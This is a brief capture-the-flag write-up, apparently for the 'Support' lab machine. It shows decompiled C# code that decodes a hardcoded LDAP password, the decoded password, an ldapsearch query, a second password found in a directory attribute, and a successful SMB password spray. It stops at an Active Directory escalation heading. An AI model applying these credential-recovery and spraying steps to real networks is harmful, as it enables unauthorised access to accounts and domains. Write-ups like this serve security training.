     namespace UserInfo.Services
    {
            // Token: 0x02000006 RID: 6
            internal class Protected
            {
                    // Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
                    public static string getPassword()
                    {
                            byte[] array = Convert.FromBase64String(Protected.enc_password);
                            byte[] array2 = array;
                            for (int i = 0; i < array.Length; i++)
                            {
                                    array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
                            }
                            return Encoding.Default.GetString(array2);
                    }

                    // Token: 0x04000005 RID: 5
                    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

                    // Token: 0x04000006 RID: 6
                    private static byte[] key = Encoding.ASCII.GetBytes("armando");
            }
    }

## crack pass

    ldap : 
    ➜  Support python3 a.py 
    Decrypted password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

    ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

## ldapsearch

    ➜  Support ldapsearch -x -b "dc=support,dc=htb" -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' > ldapresult.txt

lets analyze it

    ➜  Support cat ldapresult.txt | grep "info"       
    y with information about license issuance, for the purpose of tracking and re
    298939 for more information.
    info: Ironside47pleasure40Watchful

## password-spray

    ➜  Support nxc smb support.htb -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-succes 

    SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful

## GenericAll-GetDomainTGT-addcomputer
